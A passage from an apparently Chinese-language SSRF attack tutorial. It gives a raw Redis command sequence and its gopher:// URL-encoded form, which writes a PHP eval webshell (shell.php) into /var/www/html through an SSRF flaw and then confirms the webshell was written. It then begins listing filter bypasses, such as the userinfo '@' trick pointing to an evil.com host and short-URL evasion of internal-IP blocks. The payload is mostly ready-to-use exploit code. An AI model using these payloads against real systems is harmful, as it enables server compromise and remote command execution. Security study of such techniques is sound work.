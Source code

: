 ```
$10\r
dbfilename\r
$9\r
shell.php\r
*3\r
$3\r
set\r
$3\r
cmd\r
$32\r
\\n<?php eval($_POST['cmd']);?>\\n\r
*1\r
$4\r
save\r
*1\r
$4\r
quit\r
```

转换后的payload:

```
gopher://127.0.0.1:6379/_*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$14%0d%0a/var/www/html/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$9%0d%0ashell.php%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$3%0d%0acmd%0d%0a$32%0d%0a\\n<?php eval($_POST['cmd']);?>\\n%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a
```

通过SSRF漏洞访问这一URL，最后可以发现webshell成功写入

![image-20210713104200363](/images/image-20210713104200363.png)




### 绕过方法

存在SSRF漏洞的功能可能会做白名单或者黑名单处理，用来阻止对内网服务及资源的访问。因此想要成功的进行SSRF攻击，需要对请求的参数地址做相关绕过的处理，这里记录一下常见的绕过方式



#### 限制了请求域名

当它限制了请求的地址为http://www.demo.com时，可以采用HTTP基本身份认证的方式绕过，如：

http://www.demo.com@www.evil.com

它会将@后面的当作域名



#### 限制请求IP不为内网地址

* 可以采用短网址绕过
